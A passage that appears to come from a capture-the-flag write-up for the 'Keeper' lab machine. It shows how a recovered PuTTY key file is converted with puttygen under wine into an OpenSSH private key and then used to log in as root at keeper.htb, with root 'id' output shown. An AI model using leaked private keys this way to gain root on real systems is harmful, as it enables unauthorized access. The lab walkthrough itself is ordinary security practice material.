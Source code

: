 This is a putty file.

If required install the latest version of `puttygen` :

```shell
apt install wine
wget https://the.earth.li/~sgtatham/putty/latest/w64/puttygen.exe
wine puttygen.exe
```

Use puttygen to convert this file into an openssh private key :

```shell
puttygen
```

File --> Load private key

![[Pasted image 20230814230056.png]]

Then Conversions -->Export openSSH key

Save as "root.key"

Then get a shell as root :

```shell
chmod 600 root.key # protect key (required by ssh client)
ssh root@keeper.htb -i root.key

root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```
